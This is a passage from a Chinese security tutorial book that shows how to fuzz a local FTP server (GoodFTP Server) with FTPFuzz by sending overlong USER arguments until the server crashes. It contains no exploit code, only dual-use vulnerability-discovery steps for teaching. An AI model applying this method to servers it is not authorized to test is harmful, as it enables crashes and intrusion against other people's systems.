

图2.5 GoodFTP Server的运行界面

> 小贴士：之所以选择一个FTP服务程序作为本次漏洞挖掘的目标软件是因为：第一，很多书籍都以作者编写的一个程序作为案例来为读者演示某漏洞的发现过程，这些用来演示的程序往往都是作者刻意设计的，不够典型；第二，FTP服务程序是一个网络软件，它一旦出现安全漏洞，就会使得恶意攻击者实现远程攻击，漏洞的危害性极大。而我们就是想要为大家展现出这种危害极大的安全漏洞，并不是只有计算机安全专家才能发现，我们同样可以挖掘出来，以提高大家继续学习的信心。

正因为本次漏洞挖掘的目标软件是一个FTP服务程序，所以我们要想挖掘它的安全漏洞，就必须使用FTP命令来进行安全测试。FTPFuzz程序就是一个非常好的FTP命令安全测试工具。如图2.6所示。



图2.6 FTPFuzz的运行界面

FTPFuzz是“Infigo FTPStress Fuzzer”程序的简称。这款程序通过构建任意长度的数据，结合FTP命令发送给被测试FTP服务程序，从而检查FTP服务程序在处理这些数据时会不会造成缓冲区溢出之类的错误。

首先给大家普及一个知识：一条完整的FTP命令是由三个部分组成的，其格式如图2.7所示。

其中，基本命令部分是固定的，由一个国际标准文件来规定，即RFC959。举例来说，“USER”是一个基本命令，FTP服务程序接收到这条命令后，就知道它后面的数据代表着FTP登录用用户名。

基本命令部分后面的用户数据是程序根据用户的具体输入来填充的，如我们在登录远程FTP服务程序时，输入的用户名就属于用户数据部分。

结束部分则是由回车符组成，用来表示一条命令的结束。

为此，一条完整的用来发送FTP登录用户名的FTP命令表示为：**USER username 回车符**。



图2.7 FTP命令由三部分组成

在一条完整FTP命令当中，基本命令部分不能被随意修改，但是，用户数据部分却是可以由用户随意指定的。这就会引发一个问题，如果FTP服务程序的开发者在代码编写中没有注意对用户数据部分的长度加以限制，用户在发送过长的用户数据给FTP服务程序后，往往就会造成FTP服务程序发生意想不到的错误，甚至出现安全漏洞。

FTPFuzz程序正好就是利用了这个原理，来帮助我们实现对FTP服务程序自动化的安全测试。现在，就让我们结合实际案例，来具体看一看如何利用FTPFuzz程序挖掘FTP服务程序的安全漏洞。



图2.8 打开test.ftpd配置文件



图2.9 点击“Launch”按钮让GoodFTP程序运行起来



图2.10 在命令行下登录GoodFTP程序

### 2.4 挑战ExploitMe

前面提到，本次作为安全测试的对象软件叫做GoodFTP Server，我们的目的是利用FTPFuzz程序挖掘出该软件的安全漏洞。其实，这种挖掘漏洞的过程一般被称作Exploit Me。“Me”原本是英文单词中“我”的意思，这里代表着被测试的软件；Exploit的意思则是指成功挖掘出漏洞并且利用成功。一次漏洞挖掘的过程既是一次安全技术的挑战，又是一次获取学习乐趣的过程。当你通过自己的努力挖掘出一个安全漏洞，并且成功利用之后，那种喜悦是无法言语的。所以，我们就用ExploitMe作为本次漏洞挖掘的口号，来一同挑战自我吧。

#### 2.4.1 发现漏洞

首先，运行被测试对象“GoodFTP Server”程序。打开GoodFTP.EXE后，点击程序左上角的“File”菜单，选择“Load settings”，将随GoodFTP.EXE一起的test.ftpd配置文件打开，如图2.8所示。

打开test.ftpd配置文件后，GoodFTP Server程序的主界面上将会显示出当前的基本配置。此刻，FTP服务程序工作在21号端口，其工作目录为本地系统的C盘分区。不用做任何修改，直接点击“Launch”按钮，GoodFTP Server程序开始工作，如图2.9所示。

打开Windows系统“开始”菜单中的“运行”窗口，在其中输入cmd，点击“确定”按钮打开系统自带的命令行程序。在命令行窗口中，我们可以直接通过命令登录FTP服务程序，来检查一下GoodFTP Server程序是否正常工作。输入 **ftp 127.0.0.1** 命令回车，如图2.10所示。

从图2.10中我们可以看到，GoodFTP Server程序已经要求我们输入FTP登录用户名，证明此刻，GoodFTP Server程序已经处于正常工作状态。

运行FTPFuzz程序，点击其左下角的箭头，出现一个待测试FTP命令选择列表，如图2.11所示。

在其中点击“Deselect All”选项，意思是取消所有待测试FTP命令。此刻，FTPFuzz程序左侧“FTP Commands”列表框中的所有对勾将全部消失，如图2.12所示。

在“FTP Commands”列表框中，选择“USER”这一行，在其前面的小方框中打勾，同时注意在“Fuzz this FTP command”前面也把勾打上，这代表着，我们将针对“USER”这条基本FTP命令进行安全测试，如图2.13所示。

**注意：**如果这时候，图2.13中“Command argument”处显示有内容，如图2.14所示。

请大家删除“Command argument”处显示的内容，保持该处空白，同时，点击“Update Change”按钮，保存当前更改。

接下来，点击“Config”按钮，弹出FTPFuzz程序的配置对话框，如图2.15所示。

前面2.2节中我们介绍过，FTPFuzz程序的测试原理就是构造出不同的用户数据部分来结合基本FTP命令发送给被测试FTP服务程序。待测试的基本FTP命令我们已经选择好，是 **USER** 命令。那么接下来就是配置FTPFuzz程序如何产生用户数据部分了。



图2.11 选择“Deselect All”



图2.14 “Command argument”中内容要清空



图2.12 对勾全部消失



图2.13 将“Fuzz this FTP command”打勾



图2.15 FTPFuzz程序的配置对话框

点击图2.15中“Fuzzing data”页板，切换到用户数据内容配置窗口，如图2.16所示。

从图2.16中我们看到，FTPFuzz程序用来构造用户数据部分的数据格式非常丰富，有单纯的字母“A”，有特殊符号与字母A的组合，如./A、..A、A.等等。这里只需要选择单纯的字母“A”作为用户数据内容即可，所以首先点击“Deselect All”按钮取消所有选择，然后在第二行“A”字母前打上勾即可。


图2.16 只选择第一行



图2.17 只选择第二行

点击图2.15中“Fuzzing size”面板，切换到用户数据长度配置窗口，如图2.17所示。

FTPFuzz程序可以构造出任意长度的用户数据；本次测试我们只需要选择“30”这个选项即可，其它长度选项全部取消。配置完成后，直接点击“OK”按钮，保存此次配置，回到图2.12显示的窗口当中。

接下来，我们只需要做最后一步操作。在图2.12显示的窗口底部有一个名叫“Host”的空白处，我们需要在这里填写被测试FTP服务程序的IP地址，由于GoodFTP Server程序运行在本地计算机系统当中，因此我们直接填写 **127.0.0.1** 这个IP地址到“Host”的空白处即可，如图2.18所示。



图2.18 填写被测试FTP程序所在IP地址



图2.19 FTPFuzz程序完成测试工作的画面

至此，一切准备工作都已完成，直接点击“Start”按钮，FTPFuzz程序将立即开始进行安全测试。很快，FTPFuzz程序就完成了测试工作，并且弹出一个小对话框提示测试完成，如图2.19所示。

几乎与此同时，被测试的GoodFTP Server程序似乎发生严重的运行错误，Windows系统给出了一个警告提示（注意，在测试过程中，你可能并没有看到Windows系统给出的这个警告提示窗口，而是发现GoodFTP Server程序自动消失了，其实这也是因为GoodFTP Server程序发生了严重的运行错误而导致的），如图2.20所示。

> 小贴士：在测试过程中，你可能并没有看到Windows系统给出的这个警告提示窗口，而是发现GoodFTP Server程序自动消失了，这也是因为GoodFTP Server程序发生了严重运行错误导致的。



图2.20 GoodFTP Server程序发生了错误

点击图2.20当中“请单击此处”，让我们查看一下此……

## 第2章 挖出第一个属于你的安全漏洞

此刻 GoodFTP Server 程序出错的具体信息，如图 2.21 所示。

